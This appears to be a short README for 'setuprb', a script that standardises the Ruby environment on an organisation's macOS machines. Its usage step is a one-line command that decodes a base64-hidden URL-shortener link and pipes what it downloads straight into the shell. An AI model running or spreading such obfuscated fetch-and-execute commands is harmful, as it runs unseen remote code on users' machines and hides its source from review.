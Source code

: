 # **setuprb** ![picture](IMGME/ruby.png)
`setuprb` makes sure every `Yeojinet` MacOS machine has the exact same Ruby environment, tools and configurations.



### Requirements

SSH access to the `Yeojinet` BravoSprintHub repositories in Bitbucket.



### Usage

From your terminal, execute this command:
```sh
curl -fsSL $(echo aHR0cDovL2JpdC5seS8yTWdDZjd4 | base64 -D) | sh /dev/stdin arg0 arg1
```



### Notes

This is a pre-requisite to properly running the `tuka` gem.
